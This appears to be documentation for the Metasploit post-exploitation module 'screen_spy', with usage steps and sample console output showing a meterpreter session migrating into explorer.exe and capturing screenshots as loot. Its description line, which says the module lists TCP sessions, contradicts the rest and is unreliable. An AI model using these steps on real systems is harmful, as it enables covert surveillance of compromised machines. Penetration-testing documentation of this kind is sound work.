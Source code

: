 ## Vulnerable Application

  This Module lists current TCP sessions.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/screen_spy`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  **SESSION**

  The session to run the module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```

